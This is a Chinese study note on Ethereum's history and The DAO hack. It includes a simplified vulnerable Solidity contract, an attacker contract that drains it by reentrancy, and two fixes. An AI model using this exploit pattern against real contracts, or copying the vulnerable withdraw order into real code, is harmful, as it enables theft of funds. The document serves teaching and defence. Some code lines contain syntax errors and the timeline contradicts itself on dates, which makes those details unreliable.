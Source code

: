 # 以太坊起源和发展历史

参考资料：[https://ethereum.org/zh/history/](https://ethereum.org/zh/history/)

2013年末，以太坊Vitalik Buterin 发布了以太坊白皮书。

2014年，以太坊启动ICO(Initial Coin Offering)，在42天的时间里筹集了价值约1800万美元的比特币。

2015年7月30日，以太坊发布第一个版本Frontier（前沿），并在年底提出标准-ERC20。

2016年3月，以太坊推出**Homestead**升级。旨在提高以太坊的稳定性和安全性。该升级改进了EVM、智能合约开发工具和网络协议。

2016年5月至6月期间，以太坊社区经历了一次重大危机-The DAO事件。The DAO是一个去中心化自治组织，它的智能合约存在漏洞，导致攻击者能够窃取大量以太币，这次攻击事件中用的方法被称为重入攻击。这一事件引发分歧，以太坊分为了以太坊（ETH）和以太经典（ETC）两个不同的区块链。以太经典坚守不干涉代码的原则，继续维护以太坊创世区块不变。以太坊主张通过硬分叉恢复被盗以太币。

2017年，以太坊真正繁荣时刻。

2017年初，Ethereum Enterprise Alliance(EEA)成立，旨在促进以太坊区块链在企业界的应用。该联盟吸引了微软、IBM、英特尔等。

2017年10月，以太坊完成了Metropolis升级的第一阶段，称为”**Metropolis Byzantium**“。该升级引入一系列改进，包括更好的隐私保护、智能合约安全性的提高以及降低交易成本。

伴随主网升级，ICO热潮席卷，2017年，以太坊的智能合约平台成为许多新项目的首选，这些新项目通过ICO筹集资金。ICO热潮导致以太坊价格猛涨，从2017年初的几美元上涨到年底时的数百美元。这引发了全球的关注，以太坊成为加密货币市场的第二大市值货币。但也因此，交易和智能合约的激增导致以太坊日益严重的交易拥堵和燃料费用高的问题。

2018年初，以太坊和其他加密货币经历了一次巨大的价格崩溃。Ethereum 2.0的发展取得了重要进展，并确定了从PoW切换到PoS的总体路线。2018年，全球的监管机构开始对加密货币和ICO采取更严格的监管措施。2018年见证了去中心化金融（DeFi）生态的崛起，DeFi项目在以太坊上迅速发展，包括去中心化交易所、借贷平台和稳定币。

2019年，以太坊发布了Beacon Chain信标链；以太坊上DeFi生态爆发的一年；见证了区块链游戏的兴起；**君士坦丁堡升级**（旨在解决拜占庭实施过程中可能出现的任何问题，为从工作量证明过渡到权益证明奠定了基础）；圣彼得堡升级；伊斯坦布尔升级。

2020年，以太坊推出采用权益证明共识机制的信标链，信标链开始与以太坊主链并行运作。

2021年4月15日，**柏林升级**（通过降低特定 EVM 操作的 gas 成本，增加对多种交易类型的支持来优化以太坊）；2021年8月6日，**伦敦升级**（通过引入 EIP-1559 从而改革了交易费市场，并改变了 gas 退款的处理方式和冰河时代的时间表。EIP-1559 允许每次以太坊交易都燃烧固定数量的以太币，从而降低以太币整体的通胀。这个固定金额是每笔以太坊交易所需的基本费用，矿工的激励形式是在该基本费用之上的小费。虽然 EIP-1559 显著降低了 ETH 的通胀，但合并将减少 Ether 的发行量，使以太坊的基础货币实际上处于通缩状态）。

2022年9月15日，信标链成功运作一段时间后，以太坊区块链顺利实行合并，转为PoS。

2022 年 9 月 15 日，**巴黎升级**的主要特点是关闭工作量证明挖掘算法和相关的共识逻辑，而是打开权益证明。Paris 本身是对执行客户端的升级，使他们能够从连接的共识客户端获取指令。这需要一组新的内部 API 方法，统称为引擎 API。这可以说是自 Homestead 以来以太坊历史上最重要的升级。

2023年4月12日，**上海升级**，上海升级将质押提款引入执行层。 上海升级与卡佩拉升级同时进行，使区块能够接受提款操作，因此质押人可以将以太币从信标链提取到执行层。

## The DAO攻击

参考资料：[重入攻击和 DAO 被黑事件](https://blog.chain.link/reentrancy-attacks-and-the-dao-hack-zh/)

The DAO事件中，攻击方法被称为重入攻击。

主要表现为黑客部署了一个恶意合约，作为“投资者”在The DAO的智能合约中存入以太坊，The DAO合约会有一个状态变量记录每个投资者的投资余额。黑客之后调用The DAO合约中的`withdraw()`函数取回投资余额，黑客的合约没有实现`receive()`函数，而是实现了一个包含恶意代码的`fallback()`函数。所以当The DAO执行`withdraw()`函数给黑客合约转账时，会触发黑客合约的`fallback()`函数。黑客合约的`fallback()`函数会再次调用The DAO合约的`withdraw()`函数。因此就会导致The DAO合约一直给黑客合约转账。

下面是一个该攻击的简化示例。

```solidity
// SPDX-License-Identifier:MIT
pragma solidity ^0.8.10;
contract DAO {
    mapping(address=>uint256) public balances;
    function deposit() public payable {
        require(msg.value >= 1 ether, "Deposit must be no less than 1 Ether");
        balances[msg.sender] += msg.value;
    }
    function withdraw() public {
        // Check  user's balance
        require(balances[msg.sender] >= 1 ether, "Insufficient funds, cannot withdraw");
        uint256 bal = balances[msg.sender];
        // withdraw user's balance
        (bool sent, ) = msg.sender.call(value: bal)("");
        require(sent, "Failed to withdraw sender's balance");
        // update user's balance
        balances[msg.sender] = 0;
    } 
    function doBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

发动重入攻击的合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;
interface IDAO {
    function withdraw() external;
    function deposit() external payable;
} 
contract Hacker{
    IDAO dao;
    constructor(address _dao){
        dao = IDAO(_dao);
    }
    function attack() public payable {
        // send the DAO with at least 1 ether
        require(msg.value >= 1 ether, "Need at least 1 ether to commence attack");
        dao.deposit{value: msg.value}();
        // withdraw from DAO
        dao.withdraw();
    }
    fallback() external payable {
        if(address(dao).balance >= 1ether){
            dao.withdraw();
        }
    }
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

攻击合约中的`attack()`函数调用The DAO合约的`withdraw()`函数，`withdraw()`函数会触发攻击合约的`fallback()`函数，而`fallback()`函数会再次调用The DAO合约的`withdraw()`函数，从而循环执行，导致The DAO合约给攻击合约转移远远超出其余额的资金。

### 解决方法

最简单的方法是改变The DAO合约中`withdraw()`函数的执行顺序。先`update user's balance`，再`withdraw user's balance`。也就是先更新状态，再转账。

另一种方法是The DAO合约使用函数修改器，将`withdraw()`函数”锁住“，让它在被重入的时候被这个锁挡住。示例代码如下：

```solidity
contract DAO{
    bool internal locked;
    modifier noReentrancy(){
        require(!locked, "No reentrancy");
        locked = true;
        _;
        locked = false;
    }
    // ......
    function withdraaw() public noReentrancy {
        // ...
    }
}
```

### fallback 函数

fallback函数是solidity中一个特殊的结构，在某些特殊的场景下会被触发。它有以下特点：

1. fallback函数不命名（比如：`fallback() external payable{}`）

2. 它们是被外部调用的（它们不能被自己合约内的函数调用）

3. 一个合约中只有0个或1个fallback函数，不能更多

4. 它们会在别的合约调用一个本合约中不存在的函数时被调用

5. 当ETH被发送给这个合约的时候，如果该交易没有calldata同时合约中没有`receive()`函数时，`fallback()`函数会被触发。这个场景下，fallback必须被标记为payable

6. `fallback()`函数可以包含自己的逻辑

